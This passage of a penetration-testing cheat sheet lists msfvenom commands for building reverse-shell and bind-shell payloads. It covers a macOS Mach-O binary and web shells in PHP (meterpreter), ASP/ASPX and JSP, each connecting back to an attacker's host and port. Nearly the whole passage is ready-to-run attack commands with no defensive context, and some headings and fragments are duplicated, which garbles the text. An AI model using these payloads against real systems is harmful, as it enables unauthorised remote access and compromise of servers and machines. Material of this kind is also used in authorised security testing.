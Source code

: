 ### **Reverse Shell:**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
### **Bind Shell**

{% code overflow="wrap" %}### **Bind Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
{% endcode %}

## **Web Based Payloads**

### **PHP**

#### Reverse shel**l**

{% code overflow="wrap" %}
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
{% endcode %}

### ASP/x

#### Reverse shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
{% endcode %}

### JSP

#### Reverse shell

{% code overflow="wrap" %}JSP

#### Reverse shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
{% endcode %}
